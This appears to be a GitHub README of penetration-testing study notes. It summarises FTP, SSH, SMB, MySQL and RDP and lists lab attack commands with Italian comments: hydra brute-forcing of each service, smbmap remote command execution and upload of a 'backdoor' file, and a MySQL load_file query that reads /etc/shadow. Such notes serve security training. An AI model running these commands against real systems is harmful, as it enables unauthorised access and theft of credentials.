 # Protocols-FTP-21-SSH-22-SMB-139-445-MySQL-3306-and-RDP-3389
Let's see the protocols: FTP(21), SSH(22), SMB(139-445), MySQL(3306) and RDP(3389)



# Introduction of protocols
## File Transfer Protocol
FTP (21): File Transfer Protocol is a standard network protocol for transferring files between a client and a server over a TCP/IP network. FTP uses port 21 for control messages and port 20 for data transfer.

## Secure Shell
SSH (22): Secure Shell is a cryptographic network protocol for secure remote login and other network services over an unsecured network. SSH uses port 22 by default, but it can be changed to any port.

## Server Message Block
SMB (139-445): Server Message Block is a network protocol for sharing files, printers, and other resources on a local area network. SMB uses port 139 for NetBIOS session service and port 445 for direct TCP/IP connection.

## MySQL
MySQL (3306): MySQL is an open-source relational database management system that uses Structured Query Language (SQL) to manipulate and query data. MySQL uses port 3306 by default, but it can be configured to use any port.

## Remote Desktop Protocol
RDP (3389): Remote Desktop Protocol is a proprietary network protocol that allows a user to remotely access another computer through a graphical user interface. RDP uses port 3389 by default, but it can be modified to use any port. <br>

For the enumeration part of these protocols, I direct you to my nmap github repository.<br> 
**https://github.com/SavioFengGit/Nmap-Active-Information-Gathering** <br>
For the exploitation part of these protocols with Metasploit framework, i direct you to my metasploit framework github repository.<br> 
**https://github.com/SavioFengGit/The-Metasploit-Framework-MSF**

## My usefull list of command
### SMB 445
 - smbmap -u guest -p "" -d . -H 10.0.28.123 (tool di enumerazione, discover all shared folders and drives, vedi i permessi di guest su ogni folder, in questo caso è l'utente di default 
  senza password)
 - smbmap -H 10.0.28.123 -u administrator -p smbserver_771 -x 'ipconfig' (esegue il comando)
 - smbmap -H 10.0.28.123 -u Administrator -p 'smbserver_771' -L (lista tutti i drive)
 - smbmap -H 10.0.28.123 -u Administrator -p 'smbserver_771' -r 'C$' (List contents of the directory of C:\ drive)
 - touch backdoor
 - smbmap -H 10.0.28.123 -u Administrator -p 'smbserver_771' --upload '/root/backdoor' 'C$\backdoor'  (carichi un file)
 - smbmap -H 10.0.28.123 -u Administrator -p 'smbserver_771' -r 'C$' (verifica se il file è stato inserito)
 - smbmap -H 10.0.28.123 -u Administrator -p 'smbserver_771' --download 'C$\flag.txt' (scarichi il flag)
 - smbmap -H 192.212.251.3 -u admin -p password1  (trovate le credenziali puoi usarle per vedere gli shares che sono solo di lettura o altro)
 - smbclient -L 192.126.66.3 -N (tool per l'accesso, vede se è permesso la connessione anonima "nullsession", Anonymous connection is allowed since shares are displayed without 
  requirement of password)
 - smbclient //192.144.106.3/public -N (su public)
 - smbclient //192.212.251.3/jane -U jane (vedi se esiste lo share di jane, potrebbe esistere, ma non è visualizzabile)
 - hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.212.251.3 smb  (brute force per SMB)

### FTP 21
 - ftp 192.235.127.3 21 (puoi provare anonymous/anonymous per vedere se accetta la connessione anonima)
 - hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt 192.235.127.3 ftp  (brute force con ftp per le credenziali)

### SSH 22
 - ssh root@192.201.39.3 (login con root)
 - hydra -l student -P /usr/share/wordlists/rockyou.txt 192.40.231.3 ssh (attacco a dizionario sull'utente student)
 - hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt 192.235.127.3 ssh(brute force con ftp per le credenziali)

### MySQL 3306
 - mysql -h 192.71.145.3 -u root (logghi nel db come root)
 - show databases; (mostra i db)
 - use books; (vai sul db books)
  select count(*) from authors; (fai una query)
  select load_file("/etc/shadow");  (query dove prendi l'hash della password di root)
 - hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.149.194.3 mysql (attacco a dizionario su mysql per l'utente root)

### RDP 3389
 - hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://10.0.0.31 -s 3333 (esegue un brute force su rdp)
 - xfreerdp /u:administrator /p:qwertyuiop /v:10.0.0.31:3333  (esegue la connessione con le credenziali)



